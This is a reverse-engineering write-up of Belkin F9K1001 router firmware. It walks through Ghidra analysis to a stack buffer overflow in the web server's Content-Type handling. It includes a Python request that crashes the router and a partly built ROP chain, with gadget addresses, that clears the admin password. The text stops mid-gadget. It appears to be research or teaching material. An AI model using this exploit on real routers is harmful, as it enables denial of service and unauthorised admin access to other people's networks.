

# Reverse Engineering Belkin F9K1001 `v5.03.19` Firmware

## Table of Contents:
- [Reverse Engineering Belkin F9K1001 `v5.03.19` Firmware](#reverse-engineering-belkin-f9k1001-v50319-firmware)
  - [Static Analysis of the Firmware Image](#static-analysis-of-the-firmware-image)
    - [What is the processor architecture?](#what-is-the-processor-architecture)
    - [What RTOS is it running?](#what-rtos-is-it-running)
    - [Where are `.text`,  `.data`, and `.bss` loaded?](#where-are-text--data-and-bss-loaded)
    - [Identify any custom `strcpy()` leaf functions](#identify-any-custom-strcpy-leaf-functions)
    - [Find vulnerable functions processing HTTP requests using `strcpy()`](#find-vulnerable-functions-processing-http-requests-using-strcpy)
  - [Exploit the HTTP buffer overflow](#exploit-the-http-buffer-overflow)
    - [Try to Crash the Kernel](#try-to-crash-the-kernel)
  
- [Overwrite the admin password in memory](#overwrite-the-admin-password-in-memory)
  

<!-- ToC generated using https://imthenachoman.github.io/nGitHubTOC/ -->

## Static Analysis of the Firmware Image

Start with the official binary of the firmware:

- [Support Page](https://www.belkin.com/us/support-product?pid=01t80000002wbtxaa2)
- MD5 sum: `3ae8be804d6cacecfa084cc77bbcab1c`
- [Firmware Image](http://cache-www.belkin.com/support/dl/F9K1001_WW_5.03.19.bin)
  - Local cached copy: https://github.com/a-rey/trunk/tree/master/reverse_engineering/F9K1001/bin/F9K1001_WW_5.03.19.bin

### What is the processor architecture?

Extract the binary contents with `binwalk`:

```
$ binwalk -e -d 3 F9K1001_WW_5.03.19.bin

Target File:   F9K1001_WW_5.03.19.bin
MD5 Checksum:  3ae8be804d6cacecfa084cc77bbcab1c
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Obfuscated Arcadyan firmware, signature bytes: 0x30051120,
734208        0xB3400         LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 480256 bytes

Target File:   _F9K1001_WW_5.03.19.bin.extracted/0.deobfuscated
MD5 Checksum:  1cf33c8f229d2420df1d5d26f99af2b2
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
4             0x4             LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 2813252 bytes
734208        0xB3400         LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 480256 bytes

Target File:   _F9K1001_WW_5.03.19.bin.extracted/B3400
MD5 Checksum:  eaef3cbb501d817b416f364f3a809a5e
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PFS filesystem, version 0.9, 174 files
13240         0x33B8          PNG image, 600 x 270, 8-bit colormap, non-interlaced
... (lots of files extracted from filesystem)
```

The binary is obfuscated with [Arcadyan](http://www.devttys0.com/2015/04/reversing-belkins-wps-pin-algorithm/) but `binwalk` was able to extract the data. From here the kernel image can be derived by looking for the largest file (file `4` below):

```
$ cd _F9K1001_WW_5.03.19.bin.extracted/
$ ls -lhS
total 3.3M
-rw-rw-r--. 1 user user 1.2M Sep 10 14:37 0.deobfuscated
-rw-rw-r--. 1 user user 1.2M Sep 10 14:37 0.obfuscated
-rw-rw-r--. 1 user user 469K Sep 10 14:37 B3400
-rw-rw-r--. 1 user user 452K Sep 10 14:37 B3400.7z
drwxrwxr-x. 3 user user 8.0K Sep 10 14:38 _B3400.extracted
drwxrwxr-x. 2 user user   56 Sep 10 14:37 _0.deobfuscated.extracted
$ cd _0.deobfuscated.extracted/
$ ls -lhS
total 4.8M
-rw-rw-r--. 1 user user 2.7M Sep 10 14:37 4
-rw-rw-r--. 1 user user 1.2M Sep 10 14:37 4.7z
-rw-rw-r--. 1 user user 469K Sep 10 14:37 B3400
-rw-rw-r--. 1 user user 452K Sep 10 14:37 B3400.7z
```

Then using `binwalk` again, the processor architecture becomes clear as MIPS little endian:

```
$ binwalk -A 4

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
644           0x284           MIPSEL instructions, function epilogue
1108          0x454           MIPSEL instructions, function epilogue
1760          0x6E0           MIPSEL instructions, function epilogue
2340          0x924           MIPSEL instructions, function epilogue
3012          0xBC4           MIPSEL instructions, function epilogue
3092          0xC14           MIPSEL instructions, function epilogue
3384          0xD38           MIPSEL instructions, function epilogue
... (lots more)
```

### What RTOS is it running?

Looking for strings with `kern` in them shows interesting results:

```
$ strings 4 | grep -i kern
Kernel compiled little-endian, but running on a big-endian cpu
/home/rick/work/N300v5_NOIP/source/firmware/kernel/soho.c
/home/rick/work/N300v5_NOIP/source/firmware/kernel/ip.c
/home/rick/work/N300v5_NOIP/source/firmware/kernel/nat/gtov.c
/home/rick/work/N300v5_NOIP/source/firmware/kernel/nat/vtog.c
/home/rick/work/N300v5_NOIP/source/firmware/kernel/nat/msg_nat.c
Erase firmware for goto minikernel!!!
 (9)   Dump Kernel
================ DUMP SuperTask Kernel State ============================
```

This is the [SuperTask RTOS](https://wikidevi.com/wiki/Belkin_F6D4230-4_v3) which is depreciated but still supported.

### Where are `.text`,  `.data`, and `.bss` loaded?

- [Ghidra download](https://ghidra-sre.org/)
  - [Install guide](https://ghidra-sre.org/InstallationGuide.html)
- [Java 11 download](https://www.oracle.com/technetwork/java/javase/downloads/jdk11-downloads-5066655.html) (required by Ghidra)

Start a new non-shared project in Ghidra (`File > New Project`). Then load the image (file `4`) into Ghidra using a MIPS little endian language (`File > Import File` in the new project window and click the button to the right of the `Language` field and search for `MIPS` in the `Filter` field):



Then at `0x0` in the main listing panel where the raw data is, type `d` to disassemble the code there to get the following C disassembly in Ghidra in the disassembly panel:

```c
void UndefinedFunction_00000000(void)
{
  bool bVar1;
  undefined4 *puVar2;
  int iVar3;
  longlong lVar4;

  setCopReg(0,CONCAT44(uRegister00002064,Status),(longlong)Status & 0x400000,0);
  setCopReg(0,WatchLo,0,0);
  setCopReg(0,WatchHi,0,0);
  setCopReg(0,CONCAT44(uRegister00002064,Status),(longlong)Status & 0xfffffffffffffffe,0);
  setCopReg(0,Cause,0,0);
  setCopReg(0,Count,0,0);
  setCopReg(0,Compare,0,0);
  lVar4 = -0x80000000;
  do {
    cacheOp(1,lVar4);
    bVar1 = lVar4 != -0x7fff8020;
    lVar4 = (longlong)((int)lVar4 + 0x20);
  } while (bVar1);
  lVar4 = -0x80000000;
  do {
    cacheOp(0,lVar4);
    bVar1 = lVar4 != -0x7fff8020;
    lVar4 = (longlong)((int)lVar4 + 0x20);
  } while (bVar1);
  puVar2 = (undefined4 *)&DAT_802b0d48;
  iVar3 = 0x93b3f4;
  do {
    *puVar2 = 0;
    puVar2[1] = 0;
    iVar3 = iVar3 + -0x10;
    puVar2[2] = 0;
    puVar2[3] = 0;
    puVar2 = puVar2 + 4;
  } while (0 < iVar3);
  _DAT_802b0e70 = 0x80bf4140;
  FUN_000198a8();
  do {
                    /* WARNING: Do nothing block with infinite loop */
  } while( true );
}
```

Notice the last while loop. It loads an address `0x802b0d48` and loops through it `0x93b3f4` times setting every thing to zero. This is likely the `.bss` section and its size being initialized at run time. Also, if the `.bss` section starts at `0x802b0d48` then by subtracting the file size, the image base/`.text` entry point becomes clear. This is because most programs have a memory layout like the following after the bootloader:

```
+------------+ <- high memory address
|   .bss     |
+------------+
|   .data    |
+------------+
|   .text    |
+------------+ <- low memory address
```

With this, the image base is likely `0x80002000` since nice round numbers are more common:

```
$ ls -la
total 4844
drwxrwxr-x. 2 user user      56 Sep 10 14:37 .
drwxrwxr-x. 4 user user     134 Sep 10 14:37 ..
-rw-rw-r--. 1 user user 2813252 Sep 10 14:37 4
-rw-rw-r--. 1 user user 1196039 Sep 10 14:37 4.7z
-rw-rw-r--. 1 user user  480256 Sep 10 14:37 B3400
-rw-rw-r--. 1 user user  461835 Sep 10 14:37 B3400.7z
$ python -c "print(hex(0x802b0d48 - 2813252))"
0x80002004
```

Next, select `Search > For Strings ...` and filter the results by location to see a clear delineation between human readable strings and random data:


This indicates the `.data` section likely starts around `0x001E6638`. Here is the final information:

- `.text` likely starts at `0x80002000`
- `.data` likely starts around `0x80002000` + `0x001E6638` = `0x801e8638`
- `.bss` likely starts at `0x802b0d48`

Now, select `Window > Memory Map` and click the home icon to rebase the image to `0x80002000`.


Then, to create the new section, click on the equal sign to split the current region into the following:


Next select `Analysis > Auto Analyze`, and deselect the `Non-returning Functions Discovered` before running it:


### Identify any custom `strcpy()` leaf functions

Select `Window > Functions` and right click on the column in the pane that appears to select `Add/Remove Columns`. In the new window, select `Reference Count` and then sort on this new column:


These high referenced functions represent "utility" functions for the kernel and any references to an unbounded `strcpy()` with user input can lead to buffer overflows with insecure programming. The first 3 functions listed (`0x800193ac`, `0x80161100`, and `0x8000569c`) when decompiled by Ghidra all call subfunctions so they are not true leaf functions. The fourth function (`0x80105e10`) doesn't have any loops so it isn't a `strcpy()`. Function `0x800182d8` is interesting:

```c
void FUN_800182d8(char *pcParm1)
{
  char cVar1;
  int iVar2;

  iVar2 = 0;
  if (pcParm1 != (char *)0x0) {
    cVar1 = *pcParm1;
    while (cVar1 != '\0') {
      iVar2 = iVar2 + 1;
      cVar1 = pcParm1[iVar2];
    }
  }
  return;
}
```

This easily becomes a `strlen()` with some code cleanup (right click on variables or function names to rename them or change types):

```c
int _strlen(char *s)
{
  int i;
  char c;

  i = 0;
  if (s != (char *)0x0) {
    c = *s;
    i = 0;
    while (c != '\0') {
      i = i + 1;
      c = s[i];
    }
  }
  return i;
}
```

The next 2 functions (`0x800089c8` and `0x80105b6c`) either don't have loops or are not true leaf functions. However, the next function (`0x800181f4`) looks interesting:

```c
undefined * FUN_800181f4(undefined *puParm1,char *pcParm2)
{
  char cVar1;
  undefined *puVar2;
  char *pcVar3;
  int iVar4;

  iVar4 = 0;
  puVar2 = (undefined *)0x0;
  if (puParm1 != (undefined *)0x0 && pcParm2 != (char *)0x0) {
    cVar1 = *pcParm2;
    puVar2 = puParm1;
    pcVar3 = pcParm2;
    while (cVar1 != '\0') {
      puParm1[iVar4] = *pcVar3;
      iVar4 = iVar4 + 1;
      pcVar3 = pcParm2 + iVar4;
      cVar1 = *pcVar3;
      puVar2 = puParm1 + iVar4;
    }
    *puVar2 = 0;
    puVar2 = puParm1;
  }
  return puVar2;
}
```

With some code cleanup and some manual simplifiying by hand, this becomes a `strcpy()`:

```c
// code simplified even more than done in Ghidra
char * _strcpy(char dst, char *src)
{
  char *retVal = dst;
  while (dst && src && *dst) {
    *src++ = *dst++;
  }
  *src = '\0';   // add NULL for string termination
  return retVal; // start of buffer
}
```

The same methodology can be applied to function `0x80017c54` to see that it is a `memset()`:

```c
void FUN_80017c54(int iParm1,undefined uParm2,uint uParm3)
{
  uint uVar1;
  if ((iParm1 != 0 && uParm3 != 0) && (uVar1 = 0, uParm3 != 0)) {
    do {
      *(undefined *)(iParm1 + uVar1) = uParm2;
      uVar1 = uVar1 + 1;
    } while (uVar1 < uParm3);
  }
  return;
}
```

becomes:

```c
void _memset(char *dst, char c, uint n)
{
  uint i;
  if ((dst != (char *)0x0 && n != 0) && (i = 0, n != 0)) {
    do {
      dst[i] = c;
      i = i + 1;
    } while (i < n);
  }
  return;
}
```

Continuing with this yields the following leaf functions for functions with greater than 100 references:

- `0x80017dc4` is `atoi()`
- `0x80018500` is `strcmp()`
- `0x80017c94` is `strncmp()`
- `0x80018994` is another `strcpy()` variant (named `strcpy2()`)
- `0x80018250` is `strncpy()`
- `0x800187d0` is another `strncmp()` variant (named `strncmp2()`)

### Find vulnerable functions processing HTTP requests using `strcpy()`

First look for functions with common HTTP errors ( `Search > For Strings ...`) and use `401`:


The reference at `0x8020bfb4` leads to a function that contains a lot of HTTP strings representing HTTP errors (A part of this function when disassembled by Ghidra is shown here):

```c
void FUN_80164c78(longlong lParm1,undefined8 uParm2)
{
  int iVar1;
  int iVar2;
  undefined8 uVar3;

  iVar1 = FUN_8015f460((ulonglong)DAT_802b0e5d);
  *(undefined4 *)(iVar1 + 0xde8) = 0;
  if (lParm1 == 0x193) {
    *(undefined4 *)(iVar1 + 0x100c) = 0x193;
    FUN_80164b98(iVar1,s_403_Forbidden_8020be88);
    if (*(int *)(iVar1 + 0xde4) != 0) goto LAB_80165148;
    FUN_80161100(iVar1,s_Your_client_does_not_have_permis_8020be98,uParm2);
    FUN_80161100(iVar1,s_from_this_server.<P>%c_8020becc,10);
    iVar2 = *(int *)(iVar1 + 0xde4);
  }
  else {
    if (lParm1 < 0x194) {
      if (lParm1 == 0x130) {
        *(undefined4 *)(iVar1 + 0x100c) = 0x130;
        FUN_80164b5c(iVar1,s_304_Not_modified_8020c2d4);
        *(undefined4 *)(iVar1 + 0xde4) = 1;
LAB_8016512c:
        iVar2 = *(int *)(iVar1 + 0xde4);
      }
      else {
        if (lParm1 < 0x131) {
          if (lParm1 == 0x12e) {
            *(undefined4 *)(iVar1 + 0x100c) = 0x12e;
            if (*(int *)(iVar1 + 0xde0) == 0) {
              FUN_80164b5c(iVar1,s_302_Found_8020c270);
              FUN_80161100(iVar1,s_Location:_%s_8020c27c,uParm2);
              FUN_80161100(iVar1,s_Content-type:_text/html_8020bce0);
            }
...
```

This also indicates that the function `FUN_80161100` is likely `sprintf()` since it takes a variable number of arguments, a format string and a buffer. After more inspection, functions `FUN_80164b98` and `FUN_80164b5c` end up calling `FUN_80161100` in the end too so are likely just `sprintf()` wrappers. When looking at the function cross references for  `FUN_80164c78` with all these HTTP error strings, the following is seen (`FUN_80164c78` renamed to `bad_http_handler()` from now on):


Examining these function XREFs leads to `FUN_80160a4c`. There is a lot going on in `FUN_80160a4c` but the debug strings are quite helpful (abridged raw Ghidra disassembly):

```c
void FUN_80160a4c(undefined8 uParm1)
{
	(...) // abridged
  cVar2 = _strcmp(*(char **)(iVar1 + 0x1004),(char *)0x802afd5c);
  if (cVar2 == '\0') {
    *(undefined4 *)(iVar1 + 0xde4) = 1;
    FUN_801639f4(uParm1);
  }
  else {
    cVar2 = _strcmp(*(char **)(iVar1 + 0x1004),(char *)0x802afd64);
    if (cVar2 == '\0') {
      FUN_801639f4(uParm1);
    }
    else {
      cVar2 = _strcmp(*(char **)(iVar1 + 0x1004),(char *)0x802afd54);
      if (cVar2 == '\0') {
        FUN_80163ac0(uParm1);
      }
      else {
        bad_http_handler(400,s_Invalid_or_unsupported_method._8020b6d4);
      }
    }
  }
  (...) // abridged
  return;
}
```

The top half of the function has many `strcmp()` calls using various URL strings for what look like different webpage URLs (`dashboard.htm`, `home.htm`, `status.htm`, etc). However, towards the bottom of this function, there is a call to the error function `bad_http_handler()` with a HTTP 400 error string after 3 `strcmp()` function calls. This HTTP 400 error is generally interpreted as a "bad request" error. And when looking at each of the 3 string addresses for the `strcmp()` calls, it is clear that this routine is the main web dispatcher for each type of HTTP request:

- `0x802afd5c` points to the string `HEAD`
- `0x802afd64` points to the string `GET`
- `0x802afd54` points to the string `POST`

This means that `FUN_801639f4` is for handling `HEAD`/`GET` requests and `FUN_80163ac0` is for handling `POST` requests. When looking at `FUN_80163ac0` for handling `POST` requests, there are only 3 subfunction calls. To find insecure programming practices for buffer overflows, each function graph is examined looking for `strcpy()` to local stack buffers (`Window > Function Call Graph`, then look at the disassembly of functions with calls to `strcpy()`):

- `FUN_8016a15c`

  

- `FUN_801609d4`

  

- `FUN_801645b0`

  

Very quickly, `FUN_801609d4` stands out with a call to `strcpy()` onto the stack after looking at the function disassembly in Ghidra:

```c
ulonglong FUN_801609d4(int iParm1)
{
  char cVar1;
  char acStack80 [80];

  _strcpy(-0x50,*(char **)(iParm1 + 0xc34));
  FUN_80162b54(iParm1);
  cVar1 = _strcmp(*(char **)(iParm1 + 0xc34),s_application/x-httpd-cgi_8021fb5c);
  if (cVar1 == '\0') {
    _strcpy((char)*(undefined4 *)(iParm1 + 0xc34),acStack80);
    FUN_801645b0(iParm1);
  }
  return (ulonglong)(cVar1 == '\0');
}
```

This function is insecure since it _likely_ takes raw user input and copies it onto the stack before any error checking. The Ghidra function decompilation of the first `strcpy()` looks weird but is more understandable from the raw MIPs disassembly:

```assembly
FUN_801609d4:
801609d4  b0 ff bd 27  addiu sp, sp, -0x50
801609d8  44 00 bf af  sw ra, 0x44(sp)
801609dc  40 00 b0 af  sw s0, 0x40(sp)
801609e0  25 80 80 00  or s0, a0, zero
801609e4  25 20 a0 03  or a0, sp, zero
801609e8  7d 60 00 0c  jal _strcpy
801609ec  34 0c 05 8e  lw a1, 0xc34(s0)
```

The stack pointer is moved down by `0x50` and then the return address and caller saved register `s0` are saved on the stack. Next the current stack pointer (remember the stack grows down!) is passed in as the first argument (`a0`) to a `strcpy()`. The second argument to `strcpy()` is passed in through the [MIPS branch delay instruction](https://en.wikipedia.org/wiki/Delay_slot) as the argument passed in to `FUN_801609d4` with some pointer math. This pointer math is adding `0xC34` to this argument and then dereferencing it. This is likely a C structure being passed in and `FUN_801609d4` is just updating a piece of it. The rest of the function `FUN_801609d4` seems to be checking for the string `application/x-httpd-cgi` and parsing that data. However, this isn't important since the first `strcpy()` gives the user full control of the stack if `iParm1` is something under user control.

## Exploit the HTTP buffer overflow

### Try to Crash the Kernel

The string `application/x-httpd-cgi` is a MIME Type for the [HTTP Content-Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type) request header. By _assuming_ the input for this header is directly passed into `FUN_801609d4`, the following Python can be crafted to test the buffer overflow theory:

```python
import requests

URL = 'http://192.168.2.1/home.htm'

header = 'application/x-httpd-cgi'
filler = 'A' * (0x48 - len(header))
PAYLOAD = '{0}{1}'.format(header, filler)
resp = requests.post(URL, headers = {
    'Content-Type': PAYLOAD
})
```

In this exploit, the header is passed such that it overflows the buffer and overwrites the return address of the caller of `FUN_801609d4` to `0xAAAAAAAA`. This is illustrated in the stack outline for `FUN_801609d4`:

```
+---------------------+ <- sp + 0x54 (high memory)
|    caller's stack   |
+---------------------+ <- sp + 0x50
|        unused       |
+---------------------+ <- sp + 0x4C (first element on FUN_801609d4's stack)
|        unused       |
+---------------------+ <- sp + 0x48
|    return address   |
+---------------------+ <- sp + 0x44
|          s0         |
+---------------------+ <- sp + 0x40
|      buffer end     |
+---------------------+ <- sp + 0x3C
|        buffer       |
+---------------------+
        (...)
+---------------------+ <- sp + 0x04
|     buffer start    |
+---------------------+ <- sp
```

To make this happen, a buffer of length 72 (`0x48`) is used. The first part of the buffer contains the valid HTTP content type with the rest being the filler for the overflow. Additionally, in order to bypass all the `strcmp()` checks for valid URLs in `FUN_80160a4c` (the one that parses each HTTP `GET`/`HEAD`/`POST` request), the exploit uses `/home.htm` as the target URL (Important check code from Ghidra decompilation of `FUN_80160a4c` that shows need to match one of these URLs):

```c
void http_method_dispatcher(undefined8 uParm1) // renamed from FUN_80160a4c
{
  (...) // omitted
  lVar6 = _strncmp2(s1,"/fwAuto.stm",6);
	if (((((lVar6 != 0) && (lVar6 = _strncmp2(s1,"/sku_set.stm",7), lVar6 != 0)) &&
           ((lVar6 = _strncmp2(s1,"/cgi-bin/SKU_set.exe",0x10), lVar6 != 0 &&
            ((lVar6 = _strncmp2(s1,"/home.htm",8), lVar6 != 0 &&
             (lVar6 = _strncmp2(s1,"/wait.stm",8), lVar6 != 0)))))) &&
          (lVar6 = _strncmp2(s1,"/status.stm",7), lVar6 != 0)) &&
         (lVar6 = _strncmp2(s1,"/setup_top.htm",10), lVar6 != 0)) {
    // more checks here that could cause problems so better to match one of these
  }
  (...) // omitted
  cVar2 = _strcmp(*(char **)(iVar1 + 0x1004),"HEAD");
  if (cVar2 == '\0') {
    *(undefined4 *)(iVar1 + 0xde4) = 1;
    head_or_get_request(uParm1);
  }
  else {
    cVar2 = _strcmp(*(char **)(iVar1 + 0x1004),"GET");
    if (cVar2 == '\0') {
      head_or_get_request(uParm1);
    }
    else {
      cVar2 = _strcmp(*(char **)(iVar1 + 0x1004),"POST");
      if (cVar2 == '\0') {
        post_request(uParm1); // ~~ WHERE EXPLOIT CODE PATH IS ~~
      }
      else {
        bad_http_handler(400,s_Invalid_or_unsupported_method._8020b6d4);
      }
    }
  }
  (...) // omitted
}
```

Running this while connected to the router's LAN using the IP of the router on the LAN causes the router to reboot!

### Overwrite the admin password in memory

To take this exploit to the next level, the next attempt will overwrite the admin password in memory. Finding the runtime address of this password is possible by looking for password-like strings (`Search > For Strings ...`). Specifically, searching for `pswd` gives the following strings:


Following the reference at `0x801ee8ec` leads to the XREF for the following decompiled function in Ghidra (after some cleanup of variable names/types and some reversing of the immediate subroutines):

```c
void FUN_8006004c(char *struct)
{
  char *oldPassword;
  char *newPassword;
  char *conPassword;
  int strMatch;
  int strMatch2;
  int strLen;
  char *s;
  longlong lVar1;
  int currStruct;
  char *randomAddress;
  int idx;
  char stackBuf [91];

  randomAddress = (char *)0x802ae014;
  _memset(stackBuf,'\0',0x23);
  oldPassword = find_in_struct(struct,s_userOldPswd_801ee8ec);
  newPassword = find_in_struct(struct,s_userNewPswd_801ee8f8);
  conPassword = find_in_struct(struct,s_userConPswd_801ee904);
  if (oldPassword == (char *)0x0) {
    oldPassword = randomAddress;
  }
  if (newPassword == (char *)0x0) {
    newPassword = randomAddress;
  }
  if (conPassword != (char *)0x0) {
    randomAddress = conPassword;
  }
  strMatch = _strcmp(oldPassword,s_d41d8cd98f00b204e9800998ecf8427e_801ee910);
  if (((strMatch != 0) ||
       (newPassword != (char *)0x802ae014 || randomAddress != (char *)0x802ae014)) &&
       (strMatch2 = _strcmp(newPassword,randomAddress), strMatch2 == 0))
  {
    probably_crypto(newPassword);
    idx = 0;
    currStruct = 0;
    do {
      strLen = _strlen((char *)(currStruct + -0x7f4bcfe0));
      if ((strLen != 0) &&
          (lVar1 = FUN_8005f6dc(oldPassword,currStruct + -0x7f4bcfb8), lVar1 == 0))
      {
        _printf(s_system_Admin_Password_CGI:%d_[%s_801ee934,0xb0f,newPassword);
        _strcpy_wrapper(currStruct + -0x7f4bcfb8,newPassword);
        break;
      }
      idx = idx + 1;
      currStruct = idx * 0x74;
    } while (idx < 2);
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    // ~~~~ these 2 strcpy() calls are very interesting ~~~~
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    if ((idx < 2) && (_strcpy((char *)0x80b4ee34,newPassword), idx == 0)) {
      _strcpy((char *)0x80b42554,newPassword);
    }
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  }
  s = find_in_struct(struct,s_timeout_802ae08c);
  _DAT_80b4edec = _atoi(s);
  FUN_8015f01c(_DAT_80b4edec);
  return;
}
```

There are 2 addresses in the function that are interesting. Towards the bottom, there are 2 `_strcpy()` calls that copy the _"new password"_ to addresses in memory (`0x80b42554` and `0x80b4ee34`). Searching for the bytes `0x25` and `0x54` (for the address`0x80b42554` ) in the binary lead to the following instructions (`Search > Memory` and enter `25 54` before selecting `Search All`):


This reference at `0x8015f0ac` points to the following code (from the disassembly pane in Ghidra):

```assembly
15f0a4  b4 80 04 3c  lui a0,0x80b4
15f0a8  b6 60 00 0c  jal _strlen
15f0ac  54 25 84 24  addiu a0, a0, 0x2554
```

MIPs uses the `lui` and `addiu` instructions to create the value `0x80b42554` in the register `a0` as the argument for `_strlen()`. Interestingly, the function that calls this `strlen()` (called `FUN_8015f080`) does the following:

```c
len = _strlen((char *)0x80b42554);
if (len == 0) {
  return 1; // a return value greater than 0 is usually a success case
}
```

Following this call up the call chain leads to `FUN_8005d9c8` which has 2 XREFs. From here, the `FUN_8007f01c` XREF is really interesting (abridged decompilation from Ghidra):

```c
(...)
// this conditional is based on our call to FUN_8015f080() returning > 1
if (...) {
  uVar7 = _sprintf(pcParm1,s_var_PWS_key_=_"%c*******";_801f7444, pbVar2);
  (...)
}
else {
  uVar7 = _sprintf(pcParm1,s_var_PWS_key_=_"%s";_801f7460, pbVar2);
  (...)
}
(...)
```

These `sprintf()` strings look like the password field on the main page of the router (`dashboard.htm`). When this main page is "locked", the password field is displayed with the first character then `*******`. When this main page is "unlocked", the password field is displayed in plain text.


So by setting the admin password to NULL, `FUN_8015f080` will return 1 and _likely_ cause `FUN_8005d9c8` to display the admin password in plain text! To take advantage of this, the previous exploit code will be modified to include a [ROP Gadget](https://en.wikipedia.org/wiki/Return-oriented_programming) to clear this admin password. Since the exploit is string based, in order to NULL the admin password, a ROP gadet must be found that stores 0 to an address in a register under user control through the buffer overflow. Looking at the disassembly of the function epilogue of `FUN_801609d4` (which contains the buffer overflow) it is clear that the overflow gives the user control of register `s0`.

```assembly
80160a30  44 00 bf 8f  lw ra, 0x44(sp)
80160a34  40 00 b0 8f  lw s0, 0x40(sp)
80160a38  08 00 e0 03  jr ra
80160a3c  50 00 bd 27  addiu sp, sp, 0x50
```

So a ROP gadget is needed that stores 0 using an address in `s0` and the exploit buffer will ensure that the address of the admin password is "restored" into `s0` as `FUN_801609d4` returns and cleans up its stack. Finding this ROP gadget is easier using the following Ghidra plugin: [MIPS ROP Gadget](https://github.com/a-rey/ghidra_scripts/tree/master/MIPS_ROP_Gadgets). The installation guide is also posted on the Github page. Using this plugin and searching for `sw zero,0x0(s0)` gives the following results:

```
MIPS_ROP_Gadgets.py> Running...
Looking for "sw zero,0x0(s0)" within 10 instructions of the function epilogue
  Address of ROP   |     ROP Gadget       |       Stack Size       | Instruction Proximity
     800d2944      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     800e62c0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           10
     800f6d44      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     801662f8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801684c4      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175ec4      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175f20      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175f84      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175fd8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80176698      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80176988      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     801769ec      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176a54      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176abc      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176b24      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176b7c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178720      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178788      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178b70      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178cac      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178d38      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178e20      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178e98      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178f00      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178f5c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178fcc      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     8017903c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80179230      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80179288      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801794ec      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801a0aa0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           9
     801b8d60      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     801b8dc8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     801cb6a0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           8
MIPS_ROP_Gadgets.py> Finished!
```

The parent who calls `FUN_801609d4` (the exploitable function) is `FUN_80163ac0` and has the following function epilogue:

```assembly
80163b60  04 00 bf 8f  lw      ra,0x4(sp) # ra will be address of the ROP gadget
80163b64  00 00 b0 8f  lw      s0,0x0(sp) # s0 is under user control
80163b68  08 00 e0 03  jr      ra
80163b6c  10 00 bd 27  _addiu  sp,sp,0x10 # this is the stack size of the parent
```

So a ROP gadget is needed with a stack size of `0x10` so that the exploit returns to the parent of `FUN_80163ac0` (which is `FUN_80160a4c`, the HTTP method dispatcher). The gadget chosen for this exploit is at `0x80175fd8` and has the following code:

```assembly
80175fd8  00 00 00 ae  sw      zero,0x0(s0) # the target ROP gadget
80175fdc  08 00 bf 8f  lw      ra,0x8(sp)   # where the "real" ra needs to be
80175fe0  04 00 b1 8f  lw      s1,0x4(sp)   # could be an issue but not used by parents :)
80175fe4  00 00 b0 8f  lw      s0,0x0(sp)   # could be an issue but not used by parents :)
80175fe8  08 00 e0 03  jr      ra
